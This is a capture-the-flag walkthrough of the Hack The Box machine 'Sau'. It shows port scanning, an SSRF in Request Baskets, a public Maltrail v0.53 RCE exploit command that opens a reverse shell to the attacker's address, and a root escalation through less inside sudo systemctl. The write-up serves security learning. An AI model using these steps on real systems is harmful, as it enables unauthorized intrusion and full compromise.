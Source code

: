 ```yaml
---
layout: post
title:  "[HTB] Sau"
date:   2024-01-12
categories: CTF
---
```


# Recon

Let us start with our nmap scan

---

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-12 00:26 EST
Nmap scan report for 10.10.11.224
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

---

We can see that we have port 22, 80 and 55555, but port 80 is filtered so we cannot visit this even if we try, so we first try visiting port 55555.

![Alt text](/assets/uploads/htb-sau/2024-01-12 13_29_55.png)

We see that this is Request Baskets and upon searching about this, we find that there is an SSRF issue here that we can leverage.
We can forward port 80 to this request basket. 

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)

Now we can visit visit http://10.10.11.224:55555/d0kb80v and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit


# Exploitation
Let us clone this repository, setup a listener on port 111 and run the exploit to get a reverse shell

---
python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu
---

We can now obtain the user flag at /home/puma/user.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_09_34.png)

At this point, let us also upgrade our shell to a pty shell using

---
python3 -c 'import pty; pty.spawn("/bin/bash")'
---

# Privilege Escalation

Running sudo -l reveals that we can run sudo on /usr/bin/systemctl status trail.service

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_17_23.png)

So let us do that and we can see that the systemctl is running the less command to show us all the information, so what we can do is to run !sh to exit the terminal and we retain sudo privileges

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_19_25.png)

Now we can just obtain the root flag at /root/root.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_20_27.png)


